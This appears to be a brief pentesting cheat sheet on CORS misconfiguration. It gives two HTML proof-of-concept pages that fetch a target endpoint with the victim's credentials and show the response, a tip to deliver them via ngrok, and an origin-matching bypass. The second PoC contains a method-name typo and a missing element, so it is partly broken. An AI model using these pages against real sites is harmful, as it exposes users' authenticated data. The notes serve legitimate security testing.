 # CORS

Search for `Allow-control`

add `Origin` header with attacker site in request

```
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://api.company.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

```
<!DOCTYPE html>
<html>

<head>
    <script>
        function cors() {
            var xhttp = new XMLHttpRequest();
				xhttp.onreadystatechange = function(){
					if(this.readyState == 4 && this.status == 200){
						document.getElementbyId("root").innerHTML = alert(this.responseText);
					}
				};
				
            xhttp.open('GET', 'https://vuln-url/endpoint');
            xhttp.withCredentials = true;
            xhttp.send();
        }
    </script>
</head>

<body>
    <center>
        <h2>CORS PoC Exploit </h2>
        <h3>Show full page's content</h3>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
</body>

</html>
```

Use ngrok to create a public URL for exploit delivery.

## Bypass 

theirdomain.com --> anythingheretheirdomain.com
add Origin: theirdomain.com by changing match and replace 
